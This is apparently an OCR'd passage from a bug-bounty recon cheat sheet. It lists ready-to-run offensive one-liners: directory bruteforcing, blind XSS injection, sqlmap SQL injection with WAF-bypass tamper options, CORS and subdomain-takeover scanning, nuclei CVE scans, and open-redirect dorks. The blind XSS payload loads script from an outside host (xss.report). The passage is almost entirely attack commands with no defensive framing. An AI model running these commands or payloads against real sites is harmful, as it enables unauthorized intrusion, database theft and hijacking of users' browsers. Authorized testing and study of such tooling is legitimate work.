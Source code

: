 ## 🔥 8. Directory Bruteforce
```bash
dirsearch -u https://example.com -e bak,backup,conf,db,sql,json,env,log,old,zip,tar.gz,jar,js,rb,py,txt
```

## 🧬 9. Vulnerability Pattern Matching
```bash
cat all_urls.txt | gf xss | bxss -appendMode -payload '"><script src=https://xss.report/c/bluediving2024></script>'
```

## 🛡️ 10. WAF Bypass SQLi
```bash
sqlmap -u "https://site.com/page.php?id=1" --dbs --batch --risk=3 --level=5 \
--random-agent --tamper=space2comment,between,randomcase -v 3
```

## 🌀 11. CORS Misconfig Scanner
```bash
python3 corsy.py -i alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"
```

## 🛠️ 12. Subdomain Takeover Check
```bash
subzy run --targets final_subdomains.txt --concurrency 100 --hide_fails --verify_ssl
```

## 📦 13. JS Exposure Vuln Scan
```bash
cat js.txt | nuclei -t ~/nuclei-templates/http/exposures -c 30
```

## ⚔️ 14. CVE & Tech Detection
```bash
nuclei -list alive.txt -tags cves,osint,tech -severity high,critical -c 100
```

## 🔐 15. Open Redirect Dork
```bash
site:example.com inurl:redir | inurl:redirect | inurl:return | inurl:url= | inurl=src=http
```

## 🔗 16. Custom Wordlist from JS
```bash
katana -u https://example.com -jc -f qurl -o js_paths.txt
paramspider -d example.com -o spider.txt
```
